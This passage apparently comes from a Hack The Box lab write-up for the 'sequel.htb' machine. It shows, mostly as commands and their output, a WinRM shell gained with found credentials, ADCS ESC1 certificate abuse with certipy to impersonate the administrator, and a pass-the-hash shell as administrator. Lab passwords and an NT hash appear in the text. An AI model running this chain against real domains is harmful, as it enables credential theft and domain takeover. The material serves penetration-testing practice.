SMB         10.10.11.202    445    DC               IPC$            READ            Remote IPC                                                          
SMB         10.10.11.202    445    DC               NETLOGON        READ            Logon server share                                                  
SMB         10.10.11.202    445    DC               Public          READ                                                                                
SMB         10.10.11.202    445    DC               SYSVOL          READ            Logon server share   


┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
SMB         10.10.11.202    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.10.11.202    5985   DC               [*] http://10.10.11.202:5985/wsman
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)
```

The credential works! I got a new credential for `Ryan.Cooper` : `NuclearMosquito3`
Also I can open a shell using `winrm`!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> whoami
sequel\ryan.cooper
```

I got a shell as `ryan.cooper`!


# Shell as `Administrator`

### ADCS(Active Directory Certificate Service)

Using `crackmapexec`'s `adcs` module, we can easily check if the system has Certificate service.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs SMB 10.10.11.202 445 DC [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False) LDAPS 10.10.11.202 636 DC [+] sequel.htb\ryan.cooper:NuclearMosquito3 ADCS Found PKI Enrollment Server: dc.sequel.htb ADCS Found CN: sequel-DC-CA
```

Let's use `certify-ad` to scan it.

```bash
┌──(kali㉿kali)-[~/htb/Certipy]
└─$ certipy-ad find -dc-ip 10.10.11.202 -ns 10.10.11.202 -u Ryan.Cooper -p 'NuclearMosquito3' -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

It says whoever that belongs to `Domain Users` can request `ESC1` certificate.

### Exploit ESC1

- **ESC1**: The `UserAuthentication` certificate template allows `Domain Users` to:
    1. Request certificates.
    2. Supply their own `Subject Alternative Name (SAN)` field.
    3. Use the certificates for **Client Authentication**.
    Using this, you can request a certificate impersonating a high-privileged user (e.g., `Administrator`).

Let's create `pfx` as `administrator`.

```bash
┌──(kali㉿kali)-[~/htb/adcs]
└─$ certipy-ad req -u Ryan.Cooper -p 'NuclearMosquito3' -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'sequel.htb' at '192.168.45.2'
[+] Trying to resolve '' at '192.168.45.2'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.202[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.202[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 19
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

We need to sync time between target and kali.

```bash
┌──(kali㉿kali)-[~/htb/adcs]
└─$ sudo ntpdate -u 10.10.11.202
2025-01-11 23:19:32.436360 (-0500) +28799.720590 +/- 0.067078 10.10.11.202 s1 no-leap
CLOCK: time stepped by 28799.720590
```

Then we can dump `administrator`'s hash.

```bash
┌──(kali㉿kali)-[~/htb/adcs]
└─$ certipy auth -pfx administrator.pfx 
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

Let's test the found hash using `winrm`.

```bash
┌──(kali㉿kali)-[~/htb/adcs]
└─$ evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
```

I got `administrator`'s shell!